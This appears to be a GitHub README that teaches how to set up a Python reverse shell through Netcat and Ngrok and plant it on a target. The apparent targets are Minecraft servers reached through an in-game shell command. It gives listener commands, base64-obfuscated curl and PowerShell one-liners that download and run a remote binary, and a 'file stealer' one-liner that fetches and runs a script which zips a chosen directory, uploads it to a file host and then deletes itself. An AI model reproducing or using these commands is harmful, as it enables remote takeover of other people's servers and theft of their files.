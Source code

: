 # Python Reverse Shell Tutorial (Linux and Windows)
you will need [Python](https://www.python.org/downloads/), [Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip), & [Ngrok](https://ngrok.com)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
`ngrok tcp 4444`


4. **Start Netcat**  
`nc -lvp 4444`


5. **Download and Edit Python File**
   - [Download the Python file](https://catlitter.minoa.cat/api/view/bc52bb227eea93ac2dd0.zip) and in rs.py edit the IP and port to be the Ngrok one.
   - (Must have python installed) run windows compile.bat and only if you have wsl setup you can run linux compile.bat and the files that show up are compilex executables.
   - Upload the compiled files to [litterbox.catbox.moe](https://litterbox.catbox.moe)

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL for whatever file to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into your Terminal**
   - While in, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
Linux:
`curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)`
`chmod +x {OUTPUT FILE}`
 `./{OUTPUT FILE}`

Windows:
`Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("{BASE64 GOES HERE}"))) -OutFile ([System.IO.Path]::GetFileName(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("{BASE64 GOES HERE}")))))`


8. **Run the File**
Linux:
`chmod +x {OUTPUT FILE}`
 `./{OUTPUT FILE}`
Windows:
`start {OUTPUT FILE}`
 - If there are errors, idk..


# more
## Linux mc server file stealer
```
bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && bash ./steal.sh && rm -- steal.sh'
```
*(downloads and runs [this script](https://catlitter.minoa.cat/api/view/ad0b512a76b50c88ecef.sh) that zips and uploads whatever dir you enter to gofile and gives you the link only on linux)*

